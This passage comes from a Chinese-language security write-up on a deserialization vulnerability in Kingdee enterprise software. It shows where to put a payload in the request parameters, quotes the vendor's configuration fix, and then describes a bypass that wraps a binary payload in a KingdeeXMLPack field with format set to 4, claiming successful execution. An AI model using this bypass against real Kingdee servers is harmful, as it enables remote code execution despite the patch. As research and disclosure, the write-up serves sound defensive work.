

2.  使用 parameters 作为参数

parameters 根据上述`RequestExtractor#GetServiceParameters`方法可以得知，需要传递一个数组对象，同样由于第一个参数为 string 不能放 payload，所以将 paylaod 放置在数组的第二个位置即可：



## 0x04 修复&绕过

漏洞修复：启用金蝶数据签名校验格式 KigndeeXml 格式并禁用了二进制序列化：

```php
<add key="KDSVCDefaultFormat" value="4"/>
<add key="EnabledKDSVCBinary" value="false"/>
```

绕过思路：修改 format 为 4，即赋值为 KingdeeXml，我们可以看到代码最终还是会通过`BinaryFormatter#Deserialize`反序列化为 KingdeeXMLPack 对象：

```asp
KingdeeXMLPack kingdeeXMLPack = obj as KingdeeXMLPack;
if (kingdeeXMLPack != null)
{
    BinaryFormatterProxy binaryFormatterProxy = new BinaryFormatterProxy(this.encoding, false);
    obj = binaryFormatterProxy.Deserialize(kingdeeXMLPack.Data, type);
}
```

所以我们可以将参数修改为 KingdeeXMLPack 形式：

```php
{"ap0": "<KingdeeXMLPack>BinaryPayload</KingdeeXMLPack>", "format": "4"}
```

我们发现也是可以成功执行的：


